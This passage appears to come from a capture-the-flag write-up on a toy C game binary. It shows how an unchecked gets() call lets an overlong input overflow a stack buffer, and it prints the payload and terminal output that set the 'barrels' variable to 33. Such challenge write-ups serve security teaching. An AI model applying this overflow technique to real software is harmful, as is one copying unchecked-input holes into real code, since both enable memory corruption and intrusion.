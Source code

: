 If we inspect the code further, we can see a call to
[gets](https://linux.die.net/man/3/gets), which we know is an
[unsafe](https://stackoverflow.com/questions/1694036/why-is-the-gets-function-so-dangerous-that-it-should-not-be-used)
function as it reads into a buffer without checking it's length.

```c
gets(buffer);
```

This call may allow us to overwrite the buffer into other variables on the
stack - so what would we ideally like to overwrite? In a perfect world, we
could try and overwrite the `health` variable, but `health` is global, and so
is not actually stored on the stack. The other good choice looks like
`barrels` - if we can somehow trick the program into giving us more barrels,
then we can just throw them all.

So, what we do is we keep entering longer and longer input until we somehow get
more barrels. We can start counting from 32 characters, as the buffer will be at
least 32 characters long (as that's how it's been declared).

Eventually we get:

```
$ ./dk
welcome to donkey kong simulator 2019
try to kill mario

-------------------------
what do you want to do?
(1) throw a barrel
(2) tell me how many barrels i have
(3) tell me how much health mario has
(4) give up :)
> 2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 
i have 0 barrels for you
you're out of barrels, sorry :(
```

We have to have the space in the payload so as to still allow the
[scanf](https://linux.die.net/man/3/scanf) to work. We've somehow overwritten
the barrel variable with the null byte, setting it to zero. If we just use one
more character then, we can overwrite the number of barrels to exactly what we
want. The lowest easily printable character is `!` with the ASCII value of 33.

```
welcome to donkey kong simulator 2019
try to kill mario

-------------------------
what do you want to do?
(1) throw a barrel
(2) tell me how many barrels i have
(3) tell me how much health mario has
(4) give up :)
> 2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
i have 33 barrels for you

-------------------------
what do you want to do?
(1) throw a barrel
(2) tell me how many barrels i have
(3) tell me how much health mario has
(4) give up :)
> 1

[...]

```